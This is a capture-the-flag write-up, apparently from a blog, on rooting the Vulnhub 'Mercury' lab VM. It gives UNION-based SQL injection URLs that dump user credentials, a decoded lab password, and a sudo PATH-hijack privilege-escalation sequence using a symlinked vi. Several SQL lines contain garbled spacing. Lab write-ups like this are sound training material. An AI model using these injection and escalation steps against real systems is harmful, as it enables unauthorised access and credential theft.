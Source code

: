 ```yaml
---
title: Vulnhub - Mercury Writeup
date: 2022-01-18 10:00:00 +0530
categories: [Vulnhub]
tags: [vulnhub, sqli, sqlmap, easy, privlege-escalation]
---
```


## Intro

[Mercury](https://www.vulnhub.com/entry/the-planets-mercury,544/) is a an easy box, freely available on [vulnhub](https://vulnhub.com). The creator of the machine mentions on the page that there are two flags, one being the user flag and the other being the root flag, so nothing out of ordinary so far.  

## Enumeration

### Nmap Scan

To begin with, we will start a quick nmap scan to identify all the open ports and possibly all the services which are running on those open ports as well. I like to use the following tags and scan all the open ports on the machine. It might be time consuming but it is better to be thorough than missing something crucial.
```
nmap -sC -sV -v -p- --open -oN nmap_scan 10.0.2.4
```
Here is a quick description of all the tags used - 
* -sC: Instrcut nmap to use all the default scripts
* -sV: Help identifying the services running on the open ports
* -v: Gives a verbose output
* -p: Specify which port range to scan. Adding '-' at the end will scan all the ports
* --open: Only show open ports
* -oN: Specify output file

![nmap_scan_mercury](/assets/mercury/Nmap_scan.png)

In the above scan we can see that there are two different ports open - 
1. 22: Running regular SSH service
2. 8080: Running a WSGi Server

Upon visiting the website on port 8080 we are greeted by a very simple page saying that the site is under development.  

![default_site](/assets/mercury/default_site.png)

Manually probing around the website and minor tinkering with the directory shows that the debugger for the web app was enabled and the benevolent error page revealed a new directory which could be of our interest.

![error](/assets/mercury/Error.png)

The new directory which we found is mercuryfacts. Upon visiting it, we can see that there is a fairly incomplete website as mentioned by the previous page.

![mercuryfacts](/assets/mercury/Mercuryfacts.png)

It further links to two different pages, one is a to-do list and the other is a mercury fact.

In the to-do list we get to see some interesting entries.

![todo](/assets/mercury/todo.png)

The third entry is of interest to us. It shows us a possible SQL Injection vector on the facts page.

## Exploitation

And as suspected we get a SQL error and there indeed is a SQLi vulnerability and the error page shown below also greets us with the whole sql statement which the framework is trying to use.

![sqli](/assets/mercury/SQL_statement.png)

Using the union command in SQL, we can run our custom statements on the MySQL server.
Here is the whole url used
```
http://10.0.2.4:8080/mercuryfacts/1 union all SELECT user()
```

![sql_test](/assets/mercury/sql_test.png)

To check the available databases, we can run the following command and get the output on the facts page.

```
http://10.0.2.4:8080/mercuryfacts/1 union all SELECT schema_ name FROM information schema.schemata
```

![two_db](/assets/mercury/Two_DBs.png)

We can see that there is only one distinct database "Mercury" of interest. Let's check the tables in it.

```
http://10.0.2.4:8080/mercuryfacts/1 union all SELECT table name FROM information _schema.tables;
```

![users_table](/assets/mercury/Users_table.png)

Out of the whole list only users table strike out and moreover it was also referred in the to-do list, lets see what the users table hold for us.

````
http://10.0.2.4:8080/mercuryfacts/1 union all SELECT column name FROM information _schema.columns WHERE table name = ‘users’
````

![actual_content](/assets/mercury/Actual_user.png)

Now we can see that there are three fields only
1. ID
2. Username
3. Password

Now it is time to extract the credentials for different users.

```
http://10.0.2.4:8080/mercuryfacts/1 union all SELECT group concat(username,"-",password) from users
```

![passwords](/assets/mercury/passes.png)

For the next step, we can try using these credentials on the SSH and see if by any chance, some credential works there.

And bingo! the webmaster credentials seem to be working for the SSH and now it is time for some privilege escalation.

![webmaster_login](/assets/mercury/Webmaster_login.png)

## Privilege Escalation

Looking around the Webmaster's home directory we found out the user_flag! We can tick that one off the list.

![user_flag](/assets/mercury/User_flag.png)

There is another interesting directory in the home folder called "mercury_proj" which seems to hold the website files. There is a notes.txt file which seems to hold base64 encoded password for a different user called linuxmaster. Let's decode it and get a hold of that account as well! To decode the password, we can use the following command

```
echo "base64 encoded string" | base64 -d
```
The password which we get as a result is 
```
mercurymeandiameteris4880km
```
![linuxmaster](/assets/mercury/linuxmaster_pass.png)

Running the "sudo -l" command shows us that linuxmaster user can execute a shell script. But since we can not edit the file so we can not edit the file and get a reverse shell as root. Let's find another way to root.

![sudo-l](/assets/mercury/Sudo-l.png)

Taking a quick look at the shell script we can see that it executes "tail" as root user.  
Our linuxmaster user can create symbolic links, which means that we can link tail command to a different binary such as vi which can give us an easy way to a root shell. Following commands will create a link of "tail" to "vi" and help us get root shell.  
```
ln -s /usr/bin/vi tail
export PATH=.:$PATH
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```
The first command will create a symbolic link between tail an vi.  
Then the second command will update PATH variable with our new PATH. And the third command will execute the shell script with our current PATH

![getting_to_root](/assets/mercury/getting_to_root.png)

Now all we have to break out of Vi is to type ":shell" and we should be good to go.

![shell](/assets/mercury/shell.png)

And we have the root! If we head over to the root user's home directory we will see our second and final flag!

![root_flag](/assets/mercury/Root.png)

With this we have completed Mercury.
